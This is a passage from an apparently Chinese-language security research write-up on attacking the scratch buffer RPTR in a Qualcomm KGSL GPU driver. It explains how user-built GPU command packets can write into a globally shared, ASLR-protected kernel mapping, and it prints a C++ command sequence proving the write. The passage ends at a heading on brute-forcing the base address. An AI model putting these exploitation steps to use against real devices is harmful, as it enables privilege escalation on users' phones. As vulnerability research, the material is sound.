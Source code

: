 ## Attacking the Scratch RPTR

全局共享映射在CPU侧没有映射到用户态，因此不能直接在恶意应用写入scratch buffer中的RPTR，但由于scratch buffer映射到了每一个GPU context，包括攻击者进程的GPU context，因此可以从GPU侧写入恶意RPTR到scratch buffer。

这个过程需要进行如下两步:

+ 验证该映射可以由用户可用的GPU命令写入。
+ 恢复scratch mapping的GPU基址，它开启了ASLR。

### 验证scratch bufer可写

#### 实验验证

并不是所有的全局共享映射都能被用户可用的GPU命令写入，但是可以证实scratch buffer是可写的。通过前述`sysfs`调试方法来找到scratch mapping的随机基址，然后用如下GPU命令序列来写入scratch mapping:

````c++
/* write a value to the scratch buffer at offset 256 */
    *cmds++ = cp_type7_packet(CP_MEM_WRITE, 3);
    cmds += cp_gpuaddr(cmds, SCRATCH_BASE+256);
    *cmds++ = 0x41414141;
    
    /* ensure that the write has taken effect */
    *cmds++ = cp_type7_packet(CP_WAIT_REG_MEM, 6);
    *cmds++ = 0x13;
    cmds += cp_gpuaddr(cmds, SCRATCH_BASE+256);
    *cmds++ = 0x41414141;
    *cmds++ = 0xffffffff;
    *cmds++ = 0x1;
   
    /* write 1 to userland shared memory to signal success */
    *cmds++ = cp_type7_packet(CP_MEM_WRITE, 3);
    cmds += cp_gpuaddr(cmds, shared_mem_gpuaddr);
    *cmds++ = 0x1;
````

每个`CP_*`操作都在用户态构造、在GPU硬件运行。应用中一般直接使用OpenGL库函数和着色器，然后再被翻译为这些供应商支持库中的原生操作，但攻击者也可以直接通过设置GPU共享内存、调用`IOCTL_KGSL_GPU_COMMAND`来构造命令序列。但是这些操作没有在文档中记录，只能从驱动代码和手动测试中推断，部分操作为:

+ `CP_MEM_WRITE`: 向GPU地址写入一个常量。
+ `CP_WAIT_REG_MEM`: 在一个GPU地址中是某个常量值之前暂停执行。
+ `CP_MEM_TO_MEM`: 在GPU地址间拷贝内存。

因此上述代码可以通过检查`CP_WAIT_REG_MEM`返回值确定GPU是否向scratch buffer写入成功。

#### 通过内核驱动代码验证

还可以通过验证内核驱动代码中对全局共享映射的页表的设置来确定scratch buffer是否可写。事实上，由于调用`kgsl_allocate_global`时没有设置`KGSL_MEMFLAGS_GPUREADONLY`或`KGSL_MEMDESC_PRIVILEGED`两个flag，scratch buffer是用户GPU命令可写的。

### 获取scratch buffer基址

#### 暴力破解
